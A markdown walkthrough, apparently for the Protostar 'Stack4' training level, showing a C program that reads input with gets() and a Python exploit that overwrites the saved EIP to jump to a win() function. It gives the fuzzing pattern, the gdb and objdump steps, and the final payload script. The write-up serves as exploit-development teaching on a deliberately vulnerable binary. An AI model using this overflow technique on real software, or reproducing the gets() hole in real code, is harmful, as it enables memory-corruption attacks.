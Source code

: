 # [cd ../](../index.md)
# Stack4
> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

> Hints
- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Fuzzing
- modify the previous exploit we made by make a random padding
  ```
  AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
  ```
- make a **file** from *output* and use this as **input** str in `gdb`  
```
python stack4.py > stack4_exp
gdb stack4
r < stack4_exp
info registers
```
- We got a segfault
![segfault](segfault.png)  
- We can see it segfaulted at `ebp` = `0x53535353` this is `S` and `eip` = `0x54545454` and this is character `T`
- Run `objdump -t stack4` and find win `objdump -t stack4 | grep win`
  - `win` is at `080483f4`
- We have to control these so change the code like:  
```py
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR'
ebp = 'AAAA' # ebp - junk
eip = struct.pack('I', 0x080483f4) # eip
print padding+ebp+eip
```
- We have to create a file from the code output now then run in gdb  
`python stack4_2.py > stack4_2_exp`
![pwned](pwned.png)

# OH YEAH WE GOT IT
